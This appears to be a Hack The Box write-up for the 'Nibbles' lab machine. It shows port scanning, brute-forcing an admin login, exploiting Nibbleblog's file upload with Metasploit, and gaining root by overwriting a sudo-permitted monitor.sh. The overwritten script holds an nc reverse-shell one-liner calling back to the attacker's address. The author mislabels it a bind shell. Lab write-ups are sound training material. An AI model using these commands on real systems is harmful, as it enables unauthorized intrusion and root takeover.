 ```yaml
---
layout: default
title: NIBBLES
description: by Hack The Box
---
```


<h3 align="center">
Nibbles is a Linux machine with a vulnerability in the NibbleBlog System that allows arbritary file upload using the image upload plugin.
</h3>

# Enumeration

1. Start with an NMAP scan

```
nmap 10.10.10.75 -A -T4

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-22 03:10 EST
Nmap scan report for 10.10.10.75
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.52 seconds
```

2. 2 Ports open. 22 and 80. Look the website -> boring! Nothing under the hood too. Literally said "/nibbleblog/ directory. Nothing interesting here!"
3. Google'd Nibble blog and found that its a blog system. Checked for vuln and got a hit in searchsploit. Time to check the version of this website. Looked into the header using burp suite and found the following items:

   - Nibbleblog 3.0 and 4.0.3 is vulnerable
   - Server: Apache/2.4.18 (Ubuntu)

4. Found a local privesc for Apache 2.4.18... but we need a foothold first
5. Got nothing on Gobuster and FFUF'ing
6. Hahaha! Just realised that the comment in the HTML content of the page is an actual directory... scrap what I said in No.2
7. Found these items too:

   - Email: admin@nibbles.com
   - user: 0015145441311512964659116401634551

8. After fuzzing the new directory "//10.10.10.75/nibbleblog/"... found new directories:

   - content
   - themes
   - admin.php

# FootHold

9. Funniest thing is that the simplest thing worked! Tried to type in a password using burp intruder and got a hit on admin:nibbles
10. I'm in! Let's see what I can do as "admin" username.

    - Version: 4.0.3

11. Now that I am sure of the version of this blog. I know I can use metasploit on it. >>> running msfconsole
12. In metasploit >>> set rhost, username: admin, passsword: nibbles, targeturi: /nibbleblog
13. After getting a m-shell, I found the user flag in /home/nibbler/user.txt

# Root

14. Now we'll try to enumerate further... I can't cd in to the /root folder (no surprise). And I dont want the try the privesc from the Apache 2.14.18 vuln because that means I have to wait for that time to cycle for the exploit to run. Even then I might get it wrong and will need to wait another 24hrs to try again... arrrgggg!
15. Typing in

    ```
    $ sudo -l
    Matching Defaults entries for nibbler on Nibbles:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
    $
    ```

    This means... the root user with no password required can actually run a file named monitor.sh if its inside the /home/nibbler/personal/stuff/ folder

16. Looking at the /home/nibbler folder, there is a personal.zip file. After unzipping this file it basically created the file for me and folder structure for me. (LoL)
17. From here I deleted the file and create a monitor.sh of my own that contains a bind shell one liner!

    ```
    (Create the file)
        $ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.194 4444 > /tmp/f" > monitor.sh

    (Verify)
        $ ls
        monitor.sh

    (Run the a listener)
        ┌──(schoon3r㉿nexer)-[~/HTB]
        └─$ nc -nvlp 4444
        listening on [any] 4444 ...

    (Run the newly create monitor.sh file)
        $ sudo ./monitor.sh

    (Yay! Shellsssss!!!!)
        connect to [10.10.17.194] from (UNKNOWN) [10.10.10.75] 53904
        /bin/sh: 0: can't access tty; job control turned off
        # ls
        monitor.sh
        # whoami
        root
        # pwd
        /home/nibbler/personal/stuff
        # cd /root/
        # ls
        root.txt
        # cat root.txt
        9*4*d*1*6...
    ```

<br><br>

# Reference

1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp
2. https://yolospacehacker.com/fr/toolbox.php?id=ncbindnoe

<br><br>

[back to HOME](./)
